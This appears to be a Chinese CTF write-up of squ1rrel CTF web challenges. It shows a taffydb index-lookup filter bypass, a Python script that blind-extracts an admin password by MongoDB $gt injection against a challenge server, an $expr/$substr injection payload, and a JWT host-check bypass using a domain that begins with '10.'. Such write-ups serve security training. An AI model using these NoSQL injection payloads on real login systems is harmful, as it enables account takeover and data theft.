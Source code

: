 `https://ctf.squ1rrel.dev/login?token=s1pniGOFTCNbGpXBaH6TOnQHoHPmROX77Hag8pLcUTSXzEHayVkKRN0cUF7B6k%2BoUNGHOQwBeyNHoSmpE%2BqEOi1cVPDDG1fNtFosvy%2FlUdEhw4BNtLfxiifRmcbb`
# web
### web/JSON Store

俩个路由
```js
const db = TAFFY([
    {"username": "admin", "comments": process.env.FLAG},
    {"username": "randomuser", "comments": "This is a test comment"},
]);
```
导入了taffydb这个内存数据库,存入和读取json

| 路由 | 作用 |
| ---- | ---- |
| app.post("/getData", | 获取username,filters,设置 filters["username"]=username ;`const data = db(filters).get();`返回data |
| app.post("/addData",  | 获取username,data,插入data,设置`data["username"] = username;`<br> |
感觉应该在getData下,构造一个filters,读取到admin的commnents,但是由于中间件存在express.json(),强制json解析body,导致taffy原本的查询语法部分不能使用


破案了,在npm install的时候直接提示了一个高危漏洞...
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240505224755.png)

taffydb在查询时如果找到索引,就会忽略其他条件,直接返回索引数据项,然后构造,尝试id遍历即可

```json
{
    "filters": {
        "___id":"T000002R000002",
        "___s":"true"
    },
    "username": "a"
}
```

### web/Goosemon
flag在admin的用户密码里,数据库用的是mongodb

ban掉了关键字regex,防止正则表达式注入

看来需要盲注出admin的密码
```js
    const result = await data.toArray();
    if (result.length > 0) {
      res.status(200).send("Login successful!");
    } else {
      res.status(400).send("Login failed!");
    }
```
https://www.mongodb.com/docs/v6.0/reference/operator/query/gt/
mongodb的操作符,发现有gte(>=),可以盲注

但是盲注过程中有`regex`这个字符串,被filter函数过滤了
```js
const filter = (input) => {
    if (typeof input === 'string') {
        return input.toLowerCase().includes('regex');
    }
  
    if (typeof input === 'object') {
        return JSON.stringify(input).toLowerCase().includes('regex');
    }
}
```


```python
import requests

url="http://34.132.166.199:5249/login"

flag="squ1rrel{7h0ugh7_y0u_c0u1d_rege"

for i in range(1000):
    min=0
    max=127
    mid=(min+max)//2
    while max > min:
        mid = (min+max)//2
        data={
            "username": "admin",
            "password": {
                "$gt":flag+chr(mid)
            }
        }
        print(data)
        result=requests.post(url,json=data)
        if (result.status_code==400):
            max=mid
        else:
            min=mid+1
        mid = (min+max)//2
    flag+=chr(mid-1)
    print(flag)


```

切片,拼接在mongodb查询里也不能用...


---
别人用的是expr,gpt害我
```json
{'username': 'admin', "$expr": { "$eq": [ { "$substr": ["$password", i, 1] }, c ]}}
```

### web/Key Server
一个jwt校验,公钥可以从url中读取,
```js
    if (!issuer.host.startsWith("10.")) {
        return res.status(401).send("Invalid IP address");
    }
```
https://dnsexit.com/domains/free-second-level-domains/
host是主机名不是ip,可以申请一个免费的二级域名 `10.publicvm.com`

本地通了,远程不行...

### web/mutex-lock
```js
app.put("/mutex/:name", (req, res) => {
    const { name } = req.params;
    if (mutexes[name] == undefined) {
        const uuid = crypto.randomUUID();
        mutexes[name] = uuid;
        return res.status(200).send("Acquired! Password to release: " + uuid);
    } else {
        return res.status(409).send("Mutex already acquired");
    }
});

app.delete("/mutex/:name", (req, res) => {
    const { name } = req.params;
    const pwd = req.query.pwd;
    if (mutexes[name] == undefined) {
        return res.status(404).send("Mutex not found");
    }

    if (mutexes[name] == pwd) {
        delete mutexes[name];
        return res.status(200).send("Mutex released.");
    } else {
        return res.status(403).send("Invalid password -- do you control this mutex?");
    }
});


```

很简单的代码,flag在环境变量里,但是这俩个路由也没有可以读flag的地方啊...

---

出题者修改了express的来源,指向了他的仓库,进去之后看commit
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240506181958.png)


# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2024-05-05   22:39